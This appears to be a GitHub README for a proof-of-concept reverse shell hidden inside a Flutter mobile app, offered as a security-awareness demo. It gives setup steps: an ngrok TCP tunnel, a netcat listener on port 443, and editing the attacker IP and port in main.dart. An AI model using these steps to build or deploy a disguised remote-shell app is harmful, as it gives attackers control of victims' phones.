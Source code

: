 # Image and Video



# POC Reverse Shell With Flutter Application

I’m sharing a proof of concept demonstrating how a reverse shell can be implemented within a Flutter application. This is a reminder to always download apps only from trusted sources. Malicious APKs can easily disguise themselves as legitimate apps, like "kad kahwin.apk."

I built this example app entirely in Flutter to show how vulnerabilities can appear even in custom applications, highlighting the need for caution when installing software.

This post is for educational purposes only, aimed at raising awareness about mobile app security. Please remember: avoid downloading apps from unverified sources! 🔒

Attention all resources shared here should only be used with proper permission. Do not use them for any harmful or illegal activities. Stay responsible. Great Power Comes Great Responsibility.

# Installation 
setup ngrok
- ./ngrok authtoken <your_auth_token>
- ./ngrok tcp 443 
- dig 2.tcp.ngrok.io (check ip address ngrok)
*take note of ngrok port and ip address:

setup listener
- nc -lvnp 443

clone repo
- git clone https://github.com/NormanSamsudin/poc-flutter-reverse-shell.git
 
configure reverse shell
- change ip address and port on file main.dart





